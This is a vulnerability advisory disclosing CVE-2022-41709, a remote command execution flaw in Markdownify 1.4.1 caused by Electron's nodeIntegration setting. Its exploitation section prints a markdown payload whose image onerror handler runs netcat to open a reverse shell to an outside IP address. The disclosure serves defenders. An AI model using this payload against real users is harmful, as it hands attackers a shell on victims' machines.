 ```yaml
---
slug: advisories/adams/
title: Markdownify 1.4.1 - RCE
authors: Carlos Bello
writer: cbello
codename: adams
product: Markdownify 1.4.1 - RCE
date: 2022-10-14 15:30 COT
cveid: CVE-2022-41709
severity: 8.6
description: Markdownify 1.4.1    -    Remote Command Execution
keywords: Fluid Attacks, Security, Vulnerabilities, Markdownify, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Markdownify 1.4.1 - RCE                                            |
| **Code name**         | [Adams](https://en.wikipedia.org/wiki/Bryan_Adams)                 |
| **Product**           | Markdownify                                                        |
| **Affected versions** | Version 1.4.1                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-14                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 8.6                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41709](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41709)                                             |

## Description

Markdownify version 1.4.1 allows an external attacker to execute
arbitrary code remotely on any client attempting to view a malicious
markdown file through Markdownify. This is possible because the
application has the "nodeIntegration" option enabled.

## Vulnerability

This vulnerability occurs because the application has the
"nodeIntegration" option enabled.  Due to the above, an attacker can
embed malicious JS code in a markdown file and send it to the victim
for viewing to achieve an RCE.

## Exploitation

To exploit this vulnerability, the following file must be sent to a
user to be opened with Markdownify.

### exploit.md

```md
<img src=1 onerror="require('child_process').exec('nc 192.168.20.38 4444 -e /bin/bash');"/>
```

## Evidence of exploitation

![rce-markdownify.gif](https://user-images.githubusercontent.com/51862990/195938731-203e6071-b5c1-4258-95ee-0242880f9eb1.gif)

## Our security policy

We have reserved the CVE-2022-41709 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Markdownify 1.4.1

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/amitmerchant1990/electron-markdownify>

## Timeline

<time-lapse
  discovered="2022-09-23"
  contacted="2022-09-23"
  replied="2022-09-23"
  confirmed="2022-09-23"
  patched=""
  disclosure="2022-10-14">
</time-lapse>
